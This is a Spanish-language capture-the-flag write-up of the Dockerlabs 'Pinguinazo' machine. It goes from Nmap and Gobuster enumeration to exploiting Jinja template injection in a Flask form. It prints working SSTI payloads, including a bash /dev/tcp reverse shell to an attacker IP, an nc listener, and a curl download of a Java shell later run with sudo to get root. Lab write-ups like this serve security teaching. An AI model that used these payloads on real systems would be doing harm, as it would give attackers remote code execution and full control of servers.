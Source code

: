 # Pinguinazo

Pequeño CTF en modo **easy** de Dockerlabs.

- [Reconocimiento](#reconocimiento)
- [Escaneo](#escaneo)
- [Enumeración](#enumeración)
- [Explotación](#explotación)
- [Escalada de privilegios](#escalada-de-privilegios)

<br/>

## Reconocimiento

La máquina objetivo se encuentra correctamente desplegada dentro de la red de laboratorio (en este caso, utilizando Docker).  
Para identificarla se realizó el uso de `arp-scan` para identificar los dispositivos en nuestra red docker con la interfaz `docker0`

```bash
sudo arp-scan -I docker0 --localnet
Interface: docker0, type: EN10MB, MAC: 02:42:77:20:48:b6, IPv4: 172.17.0.1
Starting arp-scan 1.10.0 with 65536 hosts (https://github.com/royhills/arp-scan)
172.17.0.2	02:42:ac:11:00:02	(Unknown: locally administered)
```

<br/>

## Escaneo

Se realizó un escaneo con **Nmap** para identificar puertos abiertos y servicios:

```bash
nmap -p- --open -sC -sV --min-rate 5000 -n -Pn 172.17.0.2
```

El **target** corresponde a la IP de la máquina víctima: **172.17.0.2**

Resultados principales:

- Puerto **5000** abierto.
- Servicio en ejecución: aplicación Python con **Flask** y referencias a **Werkzeug**.

![Scan1](https://i.imgur.com/6UnWPSU.png)  
![Scan2](https://i.imgur.com/fZBZZWQ.png)

Incluso se observó la dirección MAC del objetivo.

<br/>

## Enumeración

El siguiente paso fue buscar directorios y recursos ocultos.

Con **Gobuster**:

```bash
gobuster dir -u "http://172.17.0.2"   -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt   -t 20 -x php,txt,html,php.bak
```

El resultado fue limitado, por lo que se usó **dirb**, que reveló un recurso interesante:

![Dirb](https://i.imgur.com/FrTLh5h.png)

Se identificó `/console`, correspondiente a la **consola interactiva de Werkzeug**.  
En el código fuente de la web se encontraron datos sensibles como la **SECRET**, probablemente utilizada en la generación del PIN de acceso.

![Werkzeug1](https://i.imgur.com/qZt5KIJ.png)  
![Werkzeug2](https://i.imgur.com/C0b9r7G.png)

Además, la página principal contenía un formulario muy básico, con los siguientes puntos débiles:

- Input de correo en modo _readOnly_ (correo de administrador expuesto).
- Inputs sin validaciones (no requeridos).
- El campo _nombre_ parece usarse directamente como parámetro en el renderizado.

![Form1](https://i.imgur.com/KI8LbEo.png)  
![Form2](https://i.imgur.com/hekE1S3.png)

<br/>

## Explotación

Se consideraron dos caminos:

1. **Bypass del PIN de Werkzeug**

   - Basado en parámetros como:
     - Usuario que ejecuta la app.
     - SECRET de la aplicación.
     - Dirección MAC de la máquina.
   - Existen scripts para generar posibles PINs, pero requieren tiempo y múltiples intentos válidos.

   ![Werkzeug Bypass](https://i.imgur.com/igjHHlp.png)

2. **Explotación del formulario principal**  
   Se probaron inyecciones:

   - **XSS**: `<script>alert('pwned');</script>`
   - **SSTI**: `{{ 2 * 8 }}`

   La inyección SSTI funcionó, confirmando vulnerabilidad en el render de templates.

![SSTI1](https://i.imgur.com/naclOMB.png)  
![SSTI2](https://i.imgur.com/0B2VOOy.png)

Ejemplo de payload ejecutando comandos del sistema:

```jinja
{{ config.__init__.__globals__['os'].popen('whoami').read() }}
```

Con Burp Suite (Repeater) se probó leer `/etc/passwd`:

![passwd1](https://i.imgur.com/rEyQTRG.png)  
![passwd2](https://i.imgur.com/aTAu5Gd.png)

✅ Quedó claro que la explotación vía SSTI era más directa y efectiva.

<br/>

### Reverse Shell

Se intentó una reverse shell usando la inyección SSTI. El payload exitoso fue:

```jinja
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen(
  'bash -c "bash -i >& /dev/tcp/10.0.0.1/8080 0>&1"').read() }}
```

**Consideraciones previas**:

- Definir la IP de escucha y puerto.
- Levantar el listener con:
  ```bash
  nc -lvnp 8080
  ```

![ReverseShell1](https://i.imgur.com/UZWpEfu.png)  
![ReverseShell2](https://i.imgur.com/QNAHOy2.png)

Con esto se obtuvo acceso inicial a la terminal.

<br/>

## Escalada de privilegios

Se buscaron binarios con permisos SUID:

```bash
find / -perm -4000 2>/dev/null
```

![SUID](https://i.imgur.com/3B74T7F.png)

Aunque algunos binarios no eran explotables, se observó `/usr/bin/sudo` en la lista.  
Al ejecutar:

```bash
sudo -l
```

Se descubrió que la shell permitía ejecutar **Java** como root.

![SudoJava](https://i.imgur.com/nnztH1C.png)

Lo ideal sería aplicar una reverse shell ejecutada con sudo para optener los permisos de root, se consultó [reveshells]() para generar una donde se pueda acceder mediante sudo.

![SudoJava](https://i.imgur.com/3RroNqA.png)

**Nota**: Se tuvo en cuenta que no había una terminal interactiva en la máquina victima por lo que exportar TERM sería una opción sin embargo, en este caso se creó la shell desde máquina atacante y en la raiz del proyecto se ejecutó un `python3 -m http.server PORT` para servir el archivo.

Luego se obtuvo desde la máquina victima con `curl -O http://10.0.0.1:PORT/magic_shell.java`

Con la shell en la máquina victima se ejecutó con `sudo java magic_shell.java` y a pesar de generar warnings, se obtuvo la shell con el mítico _root_

![SudoJava](https://i.imgur.com/lgH3sZ1.png)

## ![SudoJava](https://i.imgur.com/wVFMqtT.png)

_Written by **kur0bai**_
